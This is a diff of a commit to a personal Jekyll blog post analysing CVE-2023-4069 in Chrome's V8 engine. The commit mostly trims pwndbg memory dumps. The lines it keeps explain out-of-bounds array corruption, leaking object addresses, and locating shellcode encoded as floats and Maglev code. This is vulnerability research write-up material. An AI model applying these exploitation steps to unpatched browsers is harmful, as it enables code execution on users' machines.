

Before and after one commit to faran1512/faran1512.github.io, a Jekyll site: the page built from CVE-2023-4069_Analysis.md, in a window 1280 px wide and 1400 px high, scrolled down 6382 px. Shown: the whole window at 89% size, without its empty margins (105-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
adding maps blog

````diff
--- a/CVE-2023-4069_Analysis.md
+++ b/CVE-2023-4069_Analysis.md
@@ -42,7 +42,7 @@
 0x020300042281 <JSArray[2]> // oobObjArr
 ```
 
-##### Note: Ignore the upper 32-bits of all the outputs I have shown. They change in every execution but the lower 32-bits offsets are always the same.
+#### Note: Ignore the upper 32-bits of all the outputs I have shown. They change in every execution but the lower 32-bits offsets are always the same.
 
 ```js
 function searchDblArrIndex(startAddr, corruptedArr, marker1, marker2, limit) {
@@ -168,13 +168,6 @@
 0x203000421c0:	0x00000000	0x40548000	0x00000000	0x3ff80000
 0x203000421d0:	0x0018ece5	0x00000219	0x000421e9	0x0000000a
 0x203000421e0:	0x0000117d	0x00207c81	0x00000901	0x0000000a
-0x203000421f0:	0x00000000	0x40504000	0x00000000	0x40508000
-0x20300042200:	0x00000000	0x40544000	0x00000000	0x40548000
-0x20300042210:	0x00000000	0x3ff80000	0x00000901	0x00000006
-0x20300042220:	0x00000000	0x40504000	0x00000000	0x40508000
-0x20300042230:	0x00000000	0x3ff80000	0x0018ece5	0x00000219
-0x20300042240:	0x00042251	0x00000006	0x0000117d	0x00207cad
-0x20300042250:	0x00000901	0x00000006
 ```
 
 ```js
@@ -191,16 +184,10 @@
 0x1ca0000421c0:	0x00000000	0x40548000	0x00000000	0x3ff80000
 0x1ca0000421d0:	0x0018ece5	0x00000219	0x000421e9	0x0000000a
 0x1ca0000421e0:	0x0000117d	0x00207c81	0x00000901	0x0000000a
-0x1ca0000421f0:	0x00000000	0x40504000	0x00000000	0x40508000
-0x1ca000042200:	0x00000000	0x40544000	0x00000000	0x40548000
-0x1ca000042210:	0x00000000	0x3ff80000	0x00000901	0x00000006
-0x1ca000042220:	0x00000000	0x40504000	0x00000000	0x40508000
-0x1ca000042230:	0x00000000	0x3ff80000	0x0018ece5	0x00000219
-0x1ca000042240:	0x00042251	0x00000006	0x0000117d	0x00207cad
-0x1ca000042250:	0x00000901	0x00000006
+...
 ```
 
-### Note: The memory has 2 because SMIs have LSB as 0. So, to make sure LSB is 0, SMIs are doubled before storing in memory and halved when accessed from memory.
+#### Note: The memory has 2 because SMIs have LSB as 0. So, to make sure LSB is 0, SMIs are doubled before storing in memory and halved when accessed from memory.
 
 ```js
 let dblAddr = indexToAddr(dblIndex);
@@ -223,10 +210,7 @@
 0x2881000421f0:	0x00000000	(0x00000082)	0x00000000	0x40508000
 0x288100042200:	0x00000000	0x40544000	0x00000000	0x40548000
 0x288100042210:	0x00000000	0x3ff80000	0x00000901	0x00000006
-0x288100042220:	0x00000000	0x40504000	0x00000000	0x40508000
-0x288100042230:	0x00000000	0x3ff80000	0x0018ece5	0x00000219
-0x288100042240:	0x00042251	0x00000006	0x0000117d	0x00207cad
-0x288100042250:	0x00000901	0x00000006
+...
 ```
 
 Second pattern patched with 0x41 (0x82 in memory).
@@ -255,12 +239,7 @@
 0x5d3000421d0:	0x0018ece5	0x00000219	0x000421e9	(0x00000200) from 0xa to 0x200
 0x5d3000421e0:	0x0000117d	0x00207c81	0x00000901	0x0000000a
 0x5d3000421f0:	0x00000000	0x00000082	0x00000000	0x40508000
-0x5d300042200:	0x00000000	0x40544000	0x00000000	0x40548000
-0x5d300042210:	0x00000000	0x3ff80000	0x00000901	0x00000006
-0x5d300042220:	0x00000000	0x40504000	0x00000000	0x40508000
-0x5d300042230:	0x00000000	0x3ff80000	0x0018ece5	0x00000219
-0x5d300042240:	0x00042251	0x00000006	0x0000117d	0x00207cad
-0x5d300042250:	0x00000901	0x00000006
+...
 ```
 
 ```js
@@ -275,11 +254,7 @@
 Now we search for `oobDblAddr2's` element object member's address. Same as before, on first try we match the pattern but it is not in `obDblAddr2`, so we try again and get the correct address.
 
 ```bash
-pwndbg> x/75wx 0x058f00042191-1
-0x58f00042190:	0x0018e4c1	0x00000219	0x00000219	0x00182271
-0x58f000421a0:	0x00000901	0x0000000a	0x00000000	0x00000002
-0x58f000421b0:	0x00000000	0x40508000	0x00000000	0x40544000
-0x58f000421c0:	0x00000000	0x40548000	0x00000000	0x3ff80000
+pwndbg> x/50wx 0x058f000421d1-1
 0x58f000421d0:	0x0018ece5	0x00000219	0x000421e9	0x00000200
 0x58f000421e0:	0x0000117d	0x00207c81	0x00000901	0x0000000a
 0x58f000421f0:	0x00000000	0x00000082	0x00000000	0x40508000
@@ -288,13 +263,7 @@
 0x58f00042220:	0x00000000	(0x40504000)-> 1	0x00000000	0x40508000
 0x58f00042230:	0x00000000	0x3ff80000	0x0018ece5	0x00000219
 0x58f00042240:	0x00042251	0x00000006	0x0000117d	0x00207cad
-0x58f00042250:	0x00000901	0x00000006	0x00000000	0x40504000
-0x58f00042260:	0x00000000	0x40508000	0x00000000	0x3ff80000
-0x58f00042270:	0x00000089	0x00000004	0x00000000	0x00848484
-0x58f00042280:	0x0018ed65	0x00000219	0x00042299	0x00000004
-0x58f00042290:	0x0000117d	0x00207cd9	0x00000089	0x00000004
-0x58f000422a0:	0x00828282	0x00848484	0x00000591	0x00000003
-0x58f000422b0:	0x00000005	0x65313234	0x00000039
+...
 ```
 
 We find a pattern that is not inside `OobDblArr2`. We search again this time starting from `dblIndex + 0x10` which translates to 0x58f00042259.
@@ -308,27 +277,13 @@
 Next we find the address of `oobObjAddr's` element object member's address. We will place any object in this array and read it's address through OOB read in `oobDblAddr`.
 
 ```bash
-pwndbg> x/80wx 0x2f5500042191-1
-0x2f5500042190:	0x0018e4c1	0x00000219	0x00000219	0x00182271
-0x2f55000421a0:	0x00000901	0x0000000a	0x00000000	0x00000002
-0x2f55000421b0:	0x00000000	0x40508000	0x00000000	0x40544000
-0x2f55000421c0:	0x00000000	0x40548000	0x00000000	0x3ff80000
-0x2f55000421d0:	0x0018ece5	0x00000219	0x000421e9	0x00000200
-0x2f55000421e0:	0x0000117d	0x00207c81	0x00000901	0x0000000a
-0x2f55000421f0:	0x00000000	0x00000082	0x00000000	0x40508000
-0x2f5500042200:	0x00000000	0x40544000	0x00000000	0x40548000
-0x2f5500042210:	0x00000000	0x3ff80000	0x00000901	0x00000006
-0x2f5500042220:	0x00000000	0x40504000	0x00000000	0x40508000
-0x2f5500042230:	0x00000000	0x3ff80000	0x0018ece5	0x00000219
-0x2f5500042240:	0x00042251	0x00000006	0x0000117d	0x00207cad
-0x2f5500042250:	0x00000901	0x00000006	0x00000000	0x40504000
-0x2f5500042260:	0x00000000	0x40508000	0x00000000	0x3ff80000
-0x2f5500042270:	0x00000089	0x00000004	0x00000000	0x00848484
+pwndbg> x/50wx 0x2f5500042281-1
 0x2f5500042280:	0x0018ed65	0x00000219	0x00042299	0x00000004
 0x2f5500042290:	0x0000117d	0x00207cd9	0x00000089	0x00000004
 0x2f55000422a0:	(0x00828282	0x00848484)	0x00000591	0x00000003
 0x2f55000422b0:	0x00000005	0x65313234	0x00000039	0x000005e1
 0x2f55000422c0:	0x00000003	0x00000011	0x000422d1	0x00000e01
+...
 ```
 
 We can see in the marked memory that 0x414141 and 0x424242 are present (doubled, ofcourse).
@@ -341,27 +296,13 @@
 Now, we find the address of `func` function that has our floating point encoded shellcode. We use `(objIndex - oobDblIndex) >> 1`. As we have OOB read in `oobDblArr` of size 256, we calculate distance between `oobDblArr`and `oobObjArr`, place address of `func` in `oobObjArr[0]` and use OOB in `oobDblArr` to read address of `func` which is: `oobObjArr[0]`.
 
 ```bash
-pwndbg> x/80wx 0x3e8000042191-1
-0x3e8000042190:	0x0018e4c1	0x00000219	0x00000219	0x00182271
-0x3e80000421a0:	0x00000901	0x0000000a	0x00000000	0x00000002
-0x3e80000421b0:	0x00000000	0x40508000	0x00000000	0x40544000
-0x3e80000421c0:	0x00000000	0x40548000	0x00000000	0x3ff80000
-0x3e80000421d0:	0x0018ece5	0x00000219	0x000421e9	0x00000200
-0x3e80000421e0:	0x0000117d	0x00207cad	0x00000901	0x0000000a
-0x3e80000421f0:	0x00000000	0x00000082	0x00000000	0x40508000
-0x3e8000042200:	0x00000000	0x40544000	0x00000000	0x40548000
-0x3e8000042210:	0x00000000	0x3ff80000	0x00000901	0x00000006
-0x3e8000042220:	0x00000000	0x40504000	0x00000000	0x40508000
-0x3e8000042230:	0x00000000	0x3ff80000	0x0018ece5	0x00000219
-0x3e8000042240:	0x00042251	0x00000006	0x0000117d	0x00207cd9
-0x3e8000042250:	0x00000901	0x00000006	0x00000000	0x40504000
-0x3e8000042260:	0x00000000	0x40508000	0x00000000	0x3ff80000
-0x3e8000042270:	0x00000089	0x00000004	0x00000000	0x00848484
+pwndbg> x/80wx 0x3e8000042281-1
 0x3e8000042280:	0x0018ed65	0x00000219	0x00042299	0x00000004
 0x3e8000042290:	0x0000117d	0x00207d05	0x00000089	0x00000004
 0x3e80000422a0:	(0x0019bfd5)	0x00848484	0x00000591	0x00000003
 0x3e80000422b0:	0x00000005	0x65313234	0x00000039	0x000005e1
 0x3e80000422c0:	0x00000003	0x00000011	0x000422d1	0x00000e01
+...
 ```
 
 `oobObjArr[0]` is placed after the 2 doublewords of address of `elements` with first part of `elements` being `maps` and second `length`. We can see at address 0x3e80000422a0 the `oobObjArr[0]` has address of `func`. After this we can read address from `oobDblArr[(objIndex - oobDblIndex) >> 1]` as we have OOB read.
@@ -388,9 +329,7 @@
 0xe7200042240:	(0x0019bfe5	0x00000002)	0x0000117d	0x00207cf1
 0xe7200042250:	0x00000901	0x00000006	0x00000000	0x40504000
 0xe7200042260:	0x00000000	0x40508000	0x00000000	0x3ff80000
-0xe7200042270:	0x00000089	0x00000004	0x00000000	0x00848484
-0xe7200042280:	0x0018ed65	0x00000219	0x00042299	0x00000004
-0xe7200042290:	0x0000117d	0x00207d1d
+...
 ```
 
 We can see at address 0xe7200042240 the address of `func` has been placed. This address is the address of `elements` of `OobDblArr2`.
@@ -426,9 +365,7 @@
 0x337100042240:	(0x001a0921)	0x00000002	0x0000117d	0x00207cd9
 0x337100042250:	0x00000901	0x00000006	0x00000000	0x40504000
 0x337100042260:	0x00000000	0x40508000	0x00000000	0x3ff80000
-0x337100042270:	0x00000089	0x00000004	0x00000000	0x00848484
-0x337100042280:	0x0018ed65	0x00000219	0x00042299	0x00000004
-0x337100042290:	0x0000117d	0x00207d05
+...
 ```
 
 We can see the address of code above. From there through `OobDblArr2[0]`, we access `codeAddr + 0x10` to get Maglev address.
````
Also changed, not shown: other parts of CVE-2023-4069_Analysis.md (+1 -1 lines), Understanding_Maps_in_v8.md (added, +15 -0 lines).
